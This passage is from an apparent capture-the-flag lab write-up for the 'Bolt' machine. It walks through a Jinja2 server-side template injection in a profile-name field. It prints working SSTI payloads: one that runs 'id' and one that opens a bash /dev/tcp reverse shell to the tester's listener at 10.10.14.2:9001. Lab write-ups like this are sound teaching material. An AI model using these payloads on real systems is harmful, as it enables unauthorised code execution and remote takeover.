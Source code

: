 ![Changing profile information](bolt_web-3.png)

The user we created also has access on the [Roundcube](https://roundcube.net/) webmail service on _mail.bolt.htb_ and after changing the profile information, a mail is received.
When confirming the change, it will also confirm the name change and the **Server Side Template Injection (SSTI)** payload worked:

![SSTI confirmation](bolt_web-4.png)

I will use a code execution payload from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2):
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

The code execution payload worked and executed the `id` command, so this can be used to gain a reverse shell:
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.2/9001 0>&1"').read() }}
```

After changing the name and confirming the change, it will execute the reverse shell command and the listener on my IP and port 9001 starts a shell as _www-data_.

